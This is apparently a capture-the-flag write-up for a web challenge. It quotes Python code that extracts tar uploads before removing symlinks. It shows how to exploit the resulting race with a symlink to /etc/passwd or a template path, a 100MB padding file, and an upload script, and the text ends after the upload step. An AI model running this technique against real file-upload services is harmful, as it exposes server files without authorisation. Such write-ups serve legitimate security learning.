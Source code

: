 The vulnerable part of the code is right here:
```python
tarchive = tarfile.open(tarchive_path)
for tf in tarchive:
    if tf.name != secure_filename(tf.name):
        break
    tarchive.extract(tf.name, upload_dir)

for tf in tarchive:
    if not tf.isreg():
        os.remove(f"{upload_dir}/{tf.name}")
tarchive.close()
```
The code is first extracting all the files, and only after everything is extracted will it check if any of the files extracted are symbolic links (`tf.isreg()` checks if it's a regular file, a.k.a not a symlink). This means that there is time between when a symlink is extracted and when it is deleted (the way to secure this is to check before you extract, duh). We have a race condition vulnerability here. If we can GET request an extracted symlink file before it is deleted, we can get the contents of the file the symbolic link points to. 

For example, if we make a symlink file: `ln -s /etc/passwd link.file`, upload it, and are able to download it from the web app, then we will get the contents of the `/etc/passwd` file of the web server. For this challenge, we just want to point to the `admin.html` page which has the flag. This page is just a `../../templates/admin.html` path traversal away from the upload directory. To make our malicious link file: `ln -s ../../templates/admin.html link.file`.

Now, onto the race condition. To increase the window of time that we have for a race condition, we can abuse the fact that we wait for all tar files to be extracted before the check for symlinks begins. This means that if we tar our symlink file with a super large file, the slower decompression of the super large file would give us some time in the race condition to win. 

THE ORDER OF TAR'ING THE FILES MATTERS. If you do this: `tar payload.tar link.file bigfile.txt`, then the decompression will start with the `link.file` and then do `bigfile.txt`. If you put `bigfile.txt` before `link.file` in the compression, it will decompress `bigfile.txt` first. We want `bifile.txt` to be decompressed after `link.file` because that's the time span afer `link.file` is extracted onto the server and before `link.file` gets deleted.

Tip on how to make a large (100mb) file: `dd if=/dev/urandom of=bigfile.txt bs=1048576 count=100`

Onto the solution. First, here is the code I use to upload our tar file:
```python
import requests
import tarfile

SERVER_ADDR = "http://127.0.0.1:5000" # change this to whatever the docker is running at

def get_cookie():
    data = {
        "username": "test", # make this user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

with open('payload.tar', 'rb') as f:
    r = requests.post(url=SERVER_ADDR + "/upload", files={"file": ('payload.tar', f)}, cookies=cookie)
```

